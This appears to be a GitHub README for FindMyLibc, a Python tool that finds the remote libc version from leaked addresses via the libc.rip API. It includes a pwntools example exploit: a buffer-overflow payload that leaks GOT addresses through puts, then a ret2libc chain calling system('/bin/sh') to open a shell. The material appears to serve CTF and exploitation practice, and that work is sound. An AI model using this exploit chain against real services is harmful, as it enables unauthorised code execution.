 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```
pip install findmylibc
```  
Then use easily:  
```
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

See below the example.

# Example
Here's a simple example of exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need here...
```
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### We need to set up a "leak address" function:

```
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How to use the results:
You would probably need only `syms`, each value is the integer of the calcualted address, so you can use it like:
```
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
`_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']`  
Then it makes reqeusts to the public `https://libc.rip/api/find`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
`matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)`


